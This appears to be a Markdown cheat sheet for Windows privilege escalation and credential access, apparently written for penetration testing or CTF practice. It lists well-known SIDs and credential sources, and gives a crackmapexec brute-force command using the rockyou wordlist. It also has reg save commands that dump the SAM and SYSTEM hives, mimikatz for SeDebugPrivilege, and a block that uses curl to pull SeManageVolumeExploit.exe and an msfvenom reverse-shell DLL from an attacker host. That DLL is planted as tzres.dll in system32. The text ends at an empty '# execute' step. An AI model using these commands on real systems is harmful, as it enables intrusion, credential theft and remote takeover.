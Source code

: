 
#### SID

```
S-1-0-0                       Nobody        
S-1-1-0	                      Everybody
S-1-5-11                      Authenticated Users
S-1-5-18                      Local System
S-1-5-domainidentifier-500    Administrator
```

#### Credential Access

- reused passwords
- credentials from config file
- credentials from local DB
- credentials from cmdkey (`cmdkey /list`): https://hacklido.com/blog/542-privileges-escalation-techniques-basic-to-advanced-for-windows-part-3
- credentials from log file
- user groups
- can read SAM and SYSTEM files
- brute force attack
```
crackmapexec ssh <ip> -u <user> -p /usr/share/wordlists/rockyou.txt
```

#### Abusing Tokens

- SeImpersonatePrivilege
	- escalate to system
- SeAssignPrimaryTokenPrivilege
- SeDebugPrivilege
	- run mimikatz
- SeRestorePrivilege
	- get SAM and SYSTEM files
		- `reg save hklm\sam C:\temp\sam.hive`
		- `reg save hklm\system C:\temp\system.hive`
	- open cmd as system if you have rdp
- SeBackupPrivilege
	- get SAM and SYSTEM files
		- `reg save hklm\sam C:\temp\sam.hive`
		- `reg save hklm\system C:\temp\system.hive`
	- open cmd as system if you have rdp
	- read any file: Acl-FullControl.ps1
- SeManageVolumePrivilege / SeChangeNotifyPrivilege - This exploit grants full permission on C:\ drive for all users on the machine
```
#PE
# download SeManageVolumeExploit.exe to target
# https://github.com/CsEnox/SeManageVolumeExploit
curl http://<IP>:<PORT>/SeManageVolumeExploit.exe -o SeManageVolumeExploit.exe

# run it - after we get permmisions to write to c:\
.\SeManageVolumeExploit.exe

# PoC
echo "hi" > test.txt

# generate malicious dll
# tzres.dll used when we execute "systeminfo" command
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f dll -o tzres.dll

# download it to the right path
curl http://<IP>:<PORT>/tzres.dll -o C:\windows\system32\wbem\tzres.dll

# execute 
```